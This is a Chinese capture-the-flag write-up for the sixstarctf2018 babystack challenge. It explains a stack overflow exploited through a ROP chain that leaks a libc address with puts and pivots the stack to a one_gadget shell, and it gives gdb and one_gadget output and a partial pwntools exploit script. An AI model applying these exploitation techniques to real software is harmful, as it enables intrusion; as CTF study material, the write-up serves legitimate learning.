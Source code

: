 不超过一页的话，妥妥的在这道题的可溢出范围内。

由于还开启了`FULL RELO` GOT变为只读。
思路：ROP 是重点，设法 Leak 出 libc 函数地址，随后使用 One_Gadget
1. 泄露 libc 使用 puts 函数
2. 计算函数基址，得到 one_gadget 地址，使用 read 进行写入，写入程序内存
3. 提交计算出来的地址
4. 附加 leave;ret gadget

```shell
gdb-peda$ vmmap 
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /home/pitta/workspace/pwn_learn/rec0rd/Stack/sixstarctf2018_babystack/bs
0x00601000         0x00602000         r--p      /home/pitta/workspace/pwn_learn/rec0rd/Stack/sixstarctf2018_babystack/bs
0x00602000         0x00603000     (*) rw-p      /home/pitta/workspace/pwn_learn/rec0rd/Stack/sixstarctf2018_babystack/bs
```

```shell
➜  sixstarctf2018_babystack one_gadget ./libc.so.6 
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```


# exp
```python
from pwn import  *

context.log_level = "debug"
pipe = process("./bs", env={"LD_PRELOAD":"./libc.so.6"})
libc = ELF("./libc.so.6")

writable_space = 0x602f00

puts_plt = 0x4007C0
read_plt = 0x4007E0
atol_GOT = 0x601ff0

pop_rsi_r15_ret = 0x400c01
pop_rdi_ret = 0x400c03
leave_ret = 0x400791

og_offset = 0x4527a

payload = '\x00' * 0x1010 + p64(writable_space-8)           # padding 到 rbp，随后 rbp 单位设置成写入后续 payload 写入的目标地址 -8，因为 leave 指令
payload += p64(pop_rdi_ret) + p64(atol_GOT) + p64(puts_plt) # puts(atol_GOT)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_r15_ret) + p64(writable_space) + p64(0) + p64(read_plt)
payload += p64(leave_ret)                                   # leave + ret 指令（mov rsp, rbp; pop rbp; pop rip）
payload = payload.ljust(0x2000, '\x00')

```